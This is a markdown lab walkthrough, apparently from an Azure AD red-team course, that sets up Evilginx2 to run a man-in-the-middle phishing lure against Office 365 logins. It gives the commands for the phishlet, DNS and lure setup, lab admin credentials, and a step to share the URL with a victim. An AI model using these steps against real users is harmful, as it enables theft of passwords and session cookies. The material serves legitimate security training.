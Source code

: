 # Initial Access - Phishing - Evilginx2

- We can use Evilginx2 (https://github.com/kgretzky/evilginx2) for phishing attacks.

- Evilginx acts as a relay/man-in-the-middle between the legit web page and the target user. The user always interacts with the legit website and Evilginx captures usernames, passwords and authentication cookies.

- It uses phishlets that are configuration files for specific target domains.
These are YAML files that specify conditions like hosts, filters, structure
of authentication cookies and credentials.

#### Starting Evilginx2

- Evilginx2 is already setup on the student VMs. We can use the following commands.
- Start evilginx2:
```
evilginx2 -p C:\AzAD\Tools\evilginx2\phishlets
```
- Configure the domain:
```
config domain studentx.corp
```
- Set the IP for the evilginx server:
```
config ip 172.16.x.x
```
- Use the template for Office 365:
```
phishlets hostname o365 login.studentx.corp
```
- Verify the DNS entries:
```
phishlets get-hosts o365
```

#### Setup DNS
You can access DNS Server by browsing to ```http://172.16.2.50:5380/``` from your student VM and using the following details:
```
username: admin
password: admin@123
```

- Now goto ```Zones > Add Zone``` and create zone ```Student213.corp```
- Edit Name Server and Statement of Authority and set values to your localIP
- Now add two A Records
  - ```login.login``` and your IPv4
  - ```www.login``` and your IPv4

**Make sure you see your IPv4 FOUR TIMES!!**

#### next
- Copy the certificate and private key - o365.crt and o365.key from:
```C:\studentx\.evilginx\crt``` to ```C:\studentx\.evilginx\crt\login.studentx.corp```

- Enable phishlets:
```phishlets enable o365```
-  Create the phishing URL (tied to an ID):
```lures create o365```
- Get the phishing URL
```lures get-url <ID>```
- Share the URL with the victim. (For the lab, send an email using your personal email).
